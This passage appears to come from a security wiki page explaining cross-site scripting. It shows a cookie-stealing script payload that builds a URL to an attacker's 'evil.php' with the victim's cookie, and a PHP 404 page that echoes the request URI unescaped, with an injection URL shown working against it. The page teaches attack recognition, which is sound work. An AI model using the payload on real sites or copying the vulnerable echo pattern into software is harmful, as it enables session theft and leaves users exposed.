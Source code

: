 ### Attack Examples

**Example 1: Cookie Grabber**

If the application doesn't validate the input data, the attacker can
easily steal a cookie from an authenticated user. All the attacker has
to do is to place the following code in any posted input(ie: message
boards, private messages, user profiles):

    <SCRIPT type="text/javascript">
    var adr = '../evil.php?cakemonster=' + escape(document.cookie);
    </SCRIPT>

The above code will pass an escaped content of the cookie (according to
RFC content must be escaped before sending it via HTTP protocol with GET
method) to the evil.php script in "cakemonster" variable. The attacker
then checks the results of his evil.php script (a cookie grabber script
will usually write the cookie to a file) and use it.

### Error Page Example

Let's assume that we have an error page, which is handling requests for
a non existing pages, a classic 404 error page. We may use the code
below as an example to inform user about what specific page is missing:

    <html>
    <body>

    <? php
    print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
    ?>

    </body>
    </html>

Let's see how it works:

    http://testsite.test/file_which_not_exist

In response we get:

    Not found: /file_which_not_exist

Now we will try to force the error page to include our code:

    http://testsite.test/<script>alert("TEST");</script>

The result is:

    Not found: / (but with JavaScript code <script>alert("TEST");</script>)

We have successfully injected the code, our XSS\! What does it mean? For
example, that we may use this flaw to try to steal a user's session
cookie.

## Related [Attacks](Attacks "wikilink")

  - [XSS Attacks](XSS_Attacks "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")
  - [Invoking untrusted mobile
    code](Invoking_untrusted_mobile_code "wikilink")
  - [Cross Site History Manipulation
    (XSHM)](Cross_Site_History_Manipulation_\(XSHM\) "wikilink")
